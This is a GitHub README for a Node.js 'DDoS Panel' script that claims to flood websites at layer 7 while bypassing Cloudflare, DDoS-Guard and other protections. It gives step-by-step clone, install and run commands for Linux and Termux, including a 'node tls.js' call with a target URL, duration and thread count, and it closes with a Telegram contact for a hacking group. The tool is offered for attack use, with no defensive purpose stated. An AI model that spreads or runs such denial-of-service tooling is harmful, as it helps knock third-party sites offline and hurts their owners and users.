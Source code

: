 # dos
DDoS Script (DDoS Panel) with Multiple Bypass ( Cloudflare UAM,CAPTCHA,BFM,NOSEC / DDoS Guard / Google Shield / V Shield / Amazon / etc.. )

# DDOS LAYER7

LAYER7 BAYPASS CloudFlare js


Requirements
------------

    Git
    Node.Js


Usage LINUX OR UNBUTU
-----

    $ git clone https://github.com/Ro0TN3T/dosv2
    $ cd dosv2
    $ apt install nodejs -y
    $ unzip node_modules.zip
    $ node tls.js https://target.com 60 1



   
-----
TERMUX
    $ git clone https://github.com/Ro0TN3T/dosv2
    $ cd dosv2
    $ pkg install nodejs -y
    $ unzip node_modules.zip
    $ node tls.js https://target.com 60 1


Updating
--------

    # tls.js
    # cf.js BAYPASS CloudFlare
    


Contact
-------

Telegram Group : [Aceh Cyber Team]


[ACT]: https://t.me/AcehCyberTeam/
